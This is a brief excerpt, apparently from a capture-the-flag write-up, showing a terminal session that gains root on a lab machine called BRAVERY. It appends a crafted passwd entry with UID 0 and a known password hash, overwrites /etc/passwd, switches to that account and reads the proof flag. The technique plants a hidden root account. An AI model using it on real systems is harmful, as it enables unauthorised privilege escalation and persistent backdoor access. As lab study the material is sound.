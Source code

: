 ``` bash
bash-4.2$ echo 's4rgasz$1$um05ZRrH$2I3eWNoc.MLsPEoEp1LCM.:0:0:root:/root:/bin/bash' >> passwd
bash-4.2$ tail -2 passwd
rick:x:1004:1004::/home/rick:/bin/bash
s4rgaz:$1$um05ZRrH$2I3eWNoc.MLsPEoEp1LCM.:0:0:root:/root:/bin/bash
bash-4.2$ cp passwd /etc/passwd
bash-4.2$ su s4rgaz
Password: br4vR00t
[root@bravery tmp]# whoami
root
[root@bravery tmp]# cat ~/proof.txt
Congratulations on rooting BRAVERY. :)
```
